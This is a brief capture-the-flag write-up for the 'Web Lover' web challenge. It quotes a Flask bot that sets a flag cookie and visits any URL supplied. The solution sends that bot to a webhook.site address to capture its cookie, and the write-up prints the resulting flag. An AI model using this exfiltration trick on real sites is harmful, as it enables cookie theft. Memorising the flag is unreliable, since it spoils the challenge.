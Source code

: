 # Web Lover

category: web

> Guess blahaj's favourite website and he will give you the flag!

We are given the website and the source code. Looking into the source code, we see that it visits a site and adds a cookie, and that we are supposed to steal the cookie:
```py
@app.route("/visit")
def visit():
    chrome_options = Options()
    chrome_options.add_argument("--headless")
    with webdriver.Chrome() as driver:
        driver.get("http://127.0.0.1:50100")
        driver.add_cookie({"name": "favorite_site", "value": os.environ["flag"]})
        try:
            driver.get(request.args.get("site"))
            return "Visited"
        except:
            return "Invalid URL"
```

We simply go to `/visit?site=https://webhook.site/<insert your id>` and we receive the header: `cookie: favorite_site=blahaj{x55_exi5t5_n0t_ju5t_in_scr1pt}`